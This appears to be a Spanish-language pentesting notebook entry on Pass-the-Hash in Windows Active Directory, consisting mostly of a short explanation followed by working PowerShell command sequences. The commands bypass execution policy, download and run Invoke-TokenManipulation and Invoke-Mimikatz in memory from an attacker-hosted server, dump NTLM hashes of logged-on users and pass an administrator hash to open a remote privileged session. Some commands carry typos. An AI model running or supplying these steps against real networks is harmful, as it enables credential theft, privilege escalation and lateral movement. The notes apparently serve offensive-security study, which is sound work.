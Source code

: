 # Pass The Hash 

Tags: #AD #Windows #PassTheHash 

PtH es una técnica donde robas una credencial principalmente en los sistemas Windows. Un atacante puede obtener los hashes de las password de un usuario y usarlo para autenticarse como ese usuario, bypaseando la necesidad de la actual password en texto plano. Este ataque principalmente comienza cuando el atacante gana acceso no autorizado a un sistema comprometido donde los hashes de las password estan almacenadas. Una vez adquiridas, el atacante puede explotar la vulnerabilidad en el protocolo de autenticacion de Windows, como un NTLM o Kerberos, para pasar las credenciales hasheadas a otros sistemas dentro del dominio de AD.  Para 'bypassing' se necesita crackear la password, el atacante puede moverse lateralmente dentro de la red, escalar privilegios y potencialmente hacer actividades maliciosas.  

Los atacantes obtienen fácilmente las credenciales hasheadas para loas ataques de AD haciendo 'Pass-The-hash' por medio del dumpeo de memoria o robando hashes de contraseñas desde sistemas comprometidos.  

```bash 
❯ wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-TokenManipulation.ps1
```

```powershell
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 
 	
❯ . .\PowerView.ps1                          # Importamos el modulo
❯ Get-Domain 
❯ Find-LocalAdminAccess                      # Descubrir maquinas en el AD donde el user tiene acceso local de Admin

❯ Enter-PSSession seclogs.domian.local       # Nos autenticamos a la sesion local via remota al 'DOMINIO' 
	❯ whoami /all                           
	❯ whoami /priv                          # Miramos si tenemos los priv para elevar los privilegios

# En la maquina del DC abrimos un 'HFS' para transferir el archivo 'Invoke-TokenMalipulation.ps1' a la sesion remota 
	❯ cd /                                  # Nos dirigimos a la carpeta 'root' de la sesion remota 
	❯ iex (New-Object New.webClient).DownloadString('http://IP-HFS/Invoke-TokenMalipulation.ps1') # Descargamos en la sesion remota el modulo que se encuentra en el DC de la maquina no remota llamado 'Invoke-TokenMalipulation.ps1' por medio del 'HFS' para despues utilizarlo dentro de la misma sesion remota 
		❯ Invoke-TokenManipulation -Enumerate # Enumerara todos los token disponibles, si el 'LogonType = 2' quiere decir que el usuario admin esta loggeado
	❯ iex (New-Object New.WebClient).DownloadString('http://IP-HFS/Invoke-Mimikatz.ps1') 
		❯ Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"' # Nos muestra el hash NTLM de todos los usuarios asi como el del 'Admin' 
```

```powershell
# Abrimos una nueva consola de Poweshell como 'Admin'
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 
 	
❯ . .\Invoke-Mimikatz.ps1                    # Importamos el modulo 
❯ Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:<Domain> /ntlm:<hash NTLM> /run:powershell.exe"' 
# Hacemos el 'Pass-The-Hash' e ingresamos como el usuario 'Administrator'

# Despliega una nueva venta en Powershell
❯ Enter-PSSession prod.research.domian.local # Ingresamos al 'DOMINIO' via remota como el usuario Admin
```